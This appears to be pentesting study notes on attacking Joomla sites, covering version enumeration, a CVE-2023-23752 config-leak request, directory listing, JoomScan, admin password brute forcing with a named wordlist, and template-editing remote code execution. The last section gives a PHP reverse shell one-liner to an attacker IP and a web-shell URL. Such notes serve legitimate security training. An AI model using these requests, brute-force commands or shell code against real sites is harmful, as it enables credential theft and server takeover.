

**Joomla** is a widely used Content Management System (CMS) that exposes multiple attack surfaces, including authentication panels, plugins, templates, and API endpoints. From a pentesting perspective, Joomla targets are often vulnerable due to outdated versions, weak credentials, or misconfigurations.


---

## Version Enumeration
Identifying the Joomla version is critical because many exploits are version-specific. Joomla exposes version information in several predictable locations.

### Methods

#### Via core XML manifest

```http
GET /administrator/manifests/files/joomla.xml HTTP/1.1
Host: target.com
```

- This file often reveals:
    
    - Exact Joomla version
        
    - Core file structure
        

#### Via plugin XML files

```http
GET /plugins/system/cache/cache.xml HTTP/1.1
Host: target.com
```

- Useful when core files are restricted
    
- Can still leak version-related metadata
    

#### Via HTML source

```html
<meta name="generator" content="Joomla! - Open Source Content Management" />
```

- Not always precise, but confirms Joomla usage
    

---

## Vulnerability Identification

### CVE-2023-23752 (Information Disclosure)

Affects Joomla versions:

- 4.0.0 ≤ version ≤ 4.2.7
    

This vulnerability allows unauthenticated access to sensitive data via exposed API endpoints.

#### Exploitation concept

```http
GET /api/index.php/v1/config/application?public=true HTTP/1.1
Host: target.com
```

- Returns configuration data
    
- May include:
    
    - Database credentials
        
    - User information
        

Public exploit:

```bash
git clone https://github.com/0xNahim/CVE-2023-23752
```

---

## Directory Indexing

### How it works

If directory listing is enabled on the web server, an attacker can browse internal folders without authentication.


```http
GET /templates/ HTTP/1.1
Host: target.com
```

Check for:

- `200 OK` with file listing
    
- Exposed sensitive files
    

### Common directories

```bash
/administrator/manifests/files/
/templates/
/images/
/plugins/
```

---

## JoomScan

JoomScan is a reconnaissance tool used to identify Joomla versions, enumerate components, and detect known vulnerabilities.

It automates much of the manual enumeration process and helps quickly map the attack surface.

### Basic usage

```bash
joomscan -u http://target
```

### Useful options

- `-v` → verbose output
    
- `--update` → update vulnerability database
    
- `--list-plugins` → list detectable plugins
    

### Brute Force Attacks
Joomla authentication is handled via the administrator panel:

```http
POST /administrator/index.php HTTP/1.1
```

Since Joomla does not implement strong protections by default, weak credentials are a common entry point.

The default username is often:

- `admin`

[joomla-brute](https://github.com/ajnik/joomla-bruteforce) can be used for this task:
```bash
sudo python3 joomla-brute.py \
-u http://dev.inlanefreight.local \
-w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt \
-usr admin
```


---

## Remote Code Execution via Template Editing

If you have administrator access, or can exploit weak ACL (Access Control List) configurations, you can inject PHP code into template files.

Example: modify a template file `index.php` to include a reverse shell:
1. Navigate to Joomla administrator panel.
2. Go to Extensions → Templates → Templates → Edit your active template.
3. Edit `index.php`, `error.php` or add a new file with the following PHP reverse shell code:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<own_ip>/<port> 0>&1'"); ?>
```



Uploaded shell access:
```bash
http://target.com/images/uploads/shell.php?cmd=id
```

